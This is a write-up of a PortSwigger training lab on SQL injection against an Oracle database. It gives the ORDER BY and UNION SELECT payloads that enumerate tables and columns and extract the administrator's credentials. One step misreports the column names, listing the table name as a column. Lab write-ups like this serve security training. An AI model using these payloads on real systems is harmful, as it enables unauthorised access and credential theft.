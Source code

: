 # Write-up: SQL injection attack, listing the database contents on Oracle
Lab-Link: <https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle>  
Difficulty: PRACTITIONER  
Python script: 

## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In this lab, firstly we need to find the number of columns returned by the query. We are also unaware of the database type. Then we need to list the database tables and then a table that contains the user credentials and also the column names. Finally, we need to list the username and password of the administrator from this table.

To find the number of columns returned by the query, we can use the `ORDER BY` method. We will start with `ORDER BY 1` and increase the number until we get an error. This will give us the number of columns returned by the query. Using this we get error at `ORDER BY 3`, which means the number of columns is 2.

The link is like `/filter?category=Lifestyle'+ORDER+BY+3--`

sqli payload here is
```sql
' ORDER BY 3--
```

### Solution

Now, to list the database tables, we can use the `all_tables` table in oracle. The column `table_name` contains the table names. We can use the following link to list the tables.
`Lifestyle'+UNION+SELECT+table_name,'abc'+FROM+all_tables--`

The sqli payload will be
```sql
UNION SELECT table_name, 'abc' FROM all_tables
```

Above query gives a whole lot of tables. We can filter out the tables that contain the user credentials. 
After going through all tables found potential target `USERS_OXBEIB`.

Enumerating this table to find the column names, we can use the following link.
`Lifestyle'+UNION+SELECT+column_name,'abc'+FROM+all_tab_columns+WHERE+table_name='USERS_OXBEIB'--`

The sqli payload will be
```sql
UNION SELECT column_name,'abc' FROM all_tab_columns WHERE table_name='USERS_OXBEIB'
```

This gives the column names email, USERS_OXBEIB, PASSWORD_MKKHXL. Since we only need the username and password, we can use the following link.
`Lifestyle'+UNION+SELECT+USERNAME_OTBDNT,PASSWORD_MKKHXL+FROM+USERS_OXBEIB--`

The sqli payload will be
```sql
UNION SELECT USERNAME_OTBDNT, PASSWORD_MKKHXL FROM USERS_OXBEIB
```

This gives the username and password for `administrator` of the user and the last step is now to login as administrator. Hence, solves the lab.

![alt text](img/2.png)